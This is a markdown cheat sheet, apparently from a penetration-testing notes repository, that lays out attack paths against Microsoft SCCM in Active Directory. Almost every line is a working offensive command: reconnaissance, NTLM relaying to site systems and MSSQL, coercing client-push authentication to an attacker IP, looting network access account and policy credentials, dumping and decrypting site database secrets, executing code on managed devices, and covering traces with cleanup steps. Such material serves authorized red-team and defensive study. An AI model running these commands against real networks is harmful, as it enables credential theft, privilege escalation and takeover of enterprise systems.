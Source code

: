 # SCCM

## recon
- `sccmhunter.py find -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug`
  - `sccmhunter.py show -all`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> sccm`
- `nxc smb <sccm_server> -u <user> -p <password> -d <domain> --shares`
 
## Creds-1 No credentials >>> NAA credentials || User + Pass
- Extract from pxe See no creds >>> PXE

##  Elevate-1:Relay on site systems Simple user >>> Admin on Site system
- coerce sccm site server
  - `ntlmrelayx.py -tf <site_systems> -smb2support`

## Elevate-2:Force client push Simple user >>> Admin
- `ntlmrelayx.py -t <sccm_server> -smb2support -socks # listen connection`
  - `SharpSCCM.exe invoke client-push -mp <sccm_server>.<domain> -sc <site_code> -t <attacker_ip> # Launch client push install`
    - `proxychains smbexec.py -no-pass <domain>/<socks_user>@<sccm_server>`
      - cleanup

## Elevate-3:Automatic client push Simple user >>> Relay ntlm
- Create DNS A record for non existing computer x
  - `dnstool.py -u '<domain>\<user>' -p <pass>  -r <newcomputer>.<domain> -a add -t A -d <attacker_ip> <dc_ip>`
    -  Enroll new computer x in AD  then remove host SPN from the machine account
      - `setspn -D host/<newcomputer> <newcomputer> setspn -D host/<newcomputer>.<domain> <newcomputer>`
        - wait 5m for client push
          - `ntlmrelayx.py -tf <no_signing_target> -smb2support -socks`
            - cleanup

## CRED-6 Loot creds >>> User + Pass
- SCCM SMB service (445/TCP) on a DP
  - `cmloot.py <domain>/<user>:<password>@<sccm_dp> -cmlootinventory sccmfiles.txt`
- SCCM HTTP service (80/TCP or 443/TCP) on a DP
  - `SCCMSecrets.py policies -mp http://<management_point> -u '<machine_account>$' -p '<machine_password>' -cn '<client_name>'`
  - `SCCMSecrets.py files -dp http://<distribution_point> -u '<user>' -p '<password>'`
  - `sccm-http-looter -server <ip_dp>`

## Takeover-1:relay to mssql db Simple user >>> SCCM ADMIN
- SCCM MSSQL != SSCM server
  - `sccmhunter.py mssql -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug -tu <target_user> -sc <site_code> -stacked`
    - `ntlmrelayx.py -smb2support -ts -t mssql://<sccm_mssql> -q "<query>"`
      - coerce sccm_mssql -> attacker
        - `sccmhunter.py admin -u <target_user>@<domain> -p '<password>' -ip <sccm_ip>` 

## Takeover-2:relay to mssql server Simple user >>> Admin MSSQL
- SCCM MSSQL != SSCM server
  - `ntlmrelayx.py -t <sccm_mssql> -smb2support -socks`
    - coerce sccm_server 
      - `proxychains smbexec.py -no-pass <domain>/'<sccm_server>$'@<sccm_ip>`

## Creds-2:Policy Request Credentials Simple user >>> User + Pass
- add computer
  - `sccmwtf.py newcomputer newcomputer.<domain> <target> '<domain>\<computer_added>$' '<computer_pass>'`
    - get NetworkAccessUsername and NetworkAccessPassword
      - `policysecretunobfuscate.py`
        - delete device created after sccmadmin
  - `SharpSCCM.exe get secrets -r newcomputer -u <computer_added>$ -p <computer_pass>"`
    - cleanup

## Creds-3Creds-4 Computer Admin user >>> NAA credentials
- `dploot.py sccm -u <admin> -p '<password>' <sccm_target>`
- `sccmhunter.py dpapi  -u <admin> -p '<password>' -target <sccm_target> -debug`
- `SharpSCCM.exe local secrets -m disk`
- `SharpSCCM.exe local secrets -m wmi`

## Creds-5 SCCM admin >>> Site DB credentials
- `secretsdump.py <domain>/<admin>:'<pass>'@<sccm_target>`
  - `mssqlclient.py -windows-auth -hashes '<sccm_target_hashNT>' '<domain>/<sccm_target>$'@<sccm_mssql>`
    - `use CM_<site_code>;`
      - `SELECT * FROM SC_UserAccount;`
        - `sccmdecryptpoc.exe <cyphered_value>`

## EXEC-1/2 SCCM admin >>> lat
- `SharpSCCM.exe exec -p <binary> -d <device_name> -sms <SMS_PROVIDER> -sc <SITECODE> --no-banner`
- `sccmhunter.py admin -u <user>@<domain> -p '<password>' -ip <sccm_ip>`
    - `get_device <hostname>`
      - `interact <device_id>`
        - `script xploit.ps1`

## Cleanup
- `SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"`
  - `SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>`

## Post exploit
- as sccm admin
  - `SCCMHound.exe --server <server> --sitecode <sitecode>` >>> Users sessions
